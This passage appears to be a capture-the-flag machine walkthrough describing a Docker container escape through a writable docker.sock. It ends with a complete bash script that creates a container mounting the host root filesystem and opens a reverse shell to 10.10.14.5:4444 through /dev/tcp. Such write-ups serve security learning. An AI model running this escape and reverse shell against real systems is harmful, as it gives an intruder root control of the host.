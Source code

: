 ### Docker Escape

We are now in this container as another user, and the next step is to escape in order to become root or have root access to the machine. I'm not that great with Docker escape, so Hacktricks was a life saver here.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation" %}

Early enumeration shows that there is a docker.sock in the /app/docker.sock directory. However, we can't run the docker command in this container, so there has to be another way.&#x20;

In this machine, there's one critical vulnerability, of which is that the docker.sock is writable.

<figure><img src="../../../.gitbook/assets/image (3787).png" alt=""><figcaption></figcaption></figure>

So we can enumerate further to find some docker exploits using curl.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/authz-and-authn-docker-access-authorization-plugin" %}

After reading quite a bit on docker sockets, how they're not supposed to be writeable and so on, I found a working exploit here.

{% embed url="https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25" %}

We can edit this script a bit to fit our machine and then run it. Firstly, we need to change the image name based on this machine's config.

<figure><img src="../../../.gitbook/assets/image (2786).png" alt=""><figcaption></figcaption></figure>

We can then proceed to use the exploit. Finalized code:

```bash
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.5/4444 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /app/docker.sock -d "{\"Image\":\"laravel-app_main\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=test_root
 
# start the container
curl -s -X POST --unix-socket /app/docker.sock "http://localhost/containers/test_root/start"

```
